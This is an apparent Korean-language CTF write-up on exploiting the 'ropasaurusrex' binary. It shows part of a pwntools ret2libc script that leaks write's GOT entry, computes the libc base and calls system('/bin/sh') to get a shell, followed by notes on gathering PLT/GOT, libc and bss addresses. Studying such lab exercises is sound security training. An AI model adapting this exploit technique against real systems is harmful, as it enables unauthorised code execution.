 ```python

leak = u32(p.recv(4))	//payload에 넣어둔 write가 got 읽어서 4바이트 출력해주는 것을 읽음(write_got)	--> 32비트일 때는 4바이트, 64비트일때는 8바이트 읽어와야함
log.info('leaked write: ' + hex(leak))
libc_base = leak - write_offset
log.info('leaked libc base: ' + hex(libc_base))
p.send(sh)
p.send(p32(libc_base+system))

p.interactive()

```



![1568279348241](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568279348241.png)



쉘 따짐







## exploit 2

- 일단 기본적인 ex를 써놓았다.

  ![1568280029979](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568280029979.png)

- process

- ropasaurusrex의 바이너리 

  - -> 바이너리 내부에 뭐가 있는지 출력해준다.
  - ![1568280481352](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568280481352.png)

- ldd ./ropasaurusrex  명령어를 통해 알아낸 libc 

  ![1568280329983](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568280329983.png)

  - -> libc 내부에 뭐가 있는지 출력해준다.
  - ![1568280459289](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568280459289.png)

- libc 내에 있는 write 주소

- libc 내에 있는 system 주소

- binary 내부에 있는 write와 read의 plt 와 got => IDA로 보면 보인다.

- 내가 /bin/sh를 입력할 bss의 주소 (안전하게 하기 위해 0x100) 추가

- /bin/sh 를 쓰는데 뒤에 Null 이 들어가 있어야해서 \x00 추가함

- log.info를 통해 위에서 정의해둔 주소값들 출력
